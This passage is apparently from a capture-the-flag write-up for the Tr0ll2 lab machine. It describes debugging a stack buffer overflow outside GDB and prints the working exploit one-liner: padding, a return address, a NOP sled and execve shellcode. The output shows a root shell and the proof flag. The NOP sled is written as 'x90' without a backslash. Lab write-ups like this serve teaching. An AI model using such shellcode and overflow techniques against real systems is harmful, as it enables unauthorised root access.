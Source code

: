 Remember that a shell which you get in GDB has the privileges that GDB runs at, so this is not a real root shell. We have to run it outside GDB. I did so and I got a big..segmentation fault! What worked in GDB didn't work outside it, and as I was getting frustrated, I looked at other writeups, to see if anyone else had the same problem. It seems it should have run smoothly, but there can be a discrepancy in memory between a live environment and a GDB one. I tweaked the ESP address a few times, before hitting the right one:


``` 
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door2$ ./r00t $(python -c 'print "A" * 268 + "\x90\xfb\xff\xbf" + "x90" * 16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80"')
# id
uid=1002(noob) gid=1002(noob) euid=0(root) groups=0(root),1002(noob)
# ls /root/	
Proof.txt  core1  core2  core3	core4  goal  hardmode  lmao.zip  ran_dir.py  reboot
# cat /root/Proof.txt
You win this time young Jedi...

a70354f0258dcc00292c72aab3c8b1e4  
```

The valid ESP address was <code>0xbffffb90</code>. If you try it in GDB though, you will get a segfault there. Ah, this challenge trolled me on so many levels!

``` 
/ A visit to a fresh place will bring \
\ strange work.                       /
 -------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```


